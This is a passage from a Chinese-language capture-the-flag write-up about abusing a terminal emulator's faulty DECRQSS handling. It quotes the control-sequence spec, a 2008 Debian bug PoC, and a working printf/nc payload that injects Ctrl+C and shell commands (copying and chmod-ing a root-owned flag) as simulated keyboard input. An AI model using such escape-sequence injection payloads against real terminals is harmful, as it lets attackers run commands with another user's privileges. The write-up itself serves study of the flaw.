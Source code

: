 > **Format**
>
> DCS Ps $ r D ... D ST
>
> ...
>
> **Parameters**
>
> Ps
>
> indicates whether or not the request from the host is valid.
>
> Ps 	Host Request
>
> 0 	Host's request is valid.
>
> 1 	Host's request is invalid.
>
> D ... D
>
> indicates the current setting of a valid control function that the host asked about. D...D consists of all the characters in the control function, except the CSI (9/11) or ESC [ (1/11, 5/11) introducer characters.

那么，如果程序给的 DECRQSS 是无效字符的话，`D ... D` 还需要输出吗？如果只看这一部分就去实现的话，显然会觉得要这么做，然后就导致了程序的任意输出都会被终端模拟器变成用户输入。具体可以参考 2008 年时候 [漏洞报告邮件](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=510030) 里的 PoC：

```sh
perl -e 'print "\eP\$q\nbad-command\n\e\\"'
```

于是整个利用链条就可以是，给一些 DECRQSS 序列，使得有问题的实现会：

- 模拟用户按下 Ctrl + C（或者别的快捷键），把 `fileserver` 关掉（顺便拿到 Flag 1）
- 模拟用户输入 `cp /flag /dev/shm/flag`
- 模拟用户输入 `chmod 777 /dev/shm/flag`

这样就能以 root 的身份把 flag 送给我们了。但是构造的时候有一个问题是：HTTP Server 只会输出整个 HTTP 请求的第一行，因此需要注意。

首先是关掉当前的进程，我们需要将 "Ctrl + C" 放在我们的自定义输入里面。Ctrl + C 事实上对应的是 ASCII 的第三个字符 [ETX（End of Text）](https://en.wikipedia.org/wiki/End-of-Text_character)。所以对应的序列是：

```sh
\eP\$q\x03\e\\
```

然后接下来要执行两个命令，但不能使用 `\n`。解决方法是……使用 `\r`。

我的理解是，Linux 的 TTY 默认情况下启用了 ICRNL（见 [termios(3)](https://www.man7.org/linux/man-pages/man3/termios.3.html)），会将输入的 `\r` 自动翻译为 `\n`。

最后构造出的 payload 类似如下：

```sh
#!/bin/bash

printf "GET /?\eP\$q\x03\e\\ \eP\$q\rcp /flag2 /dev/shm/example\r\e\\ \eP\$q\rchmod 777 /dev/shm/example\r\e\\ HTTP/1.0\n\n" | nc localhost 8000
sleep 2
ls /dev/shm/
cat /dev/shm/example
```
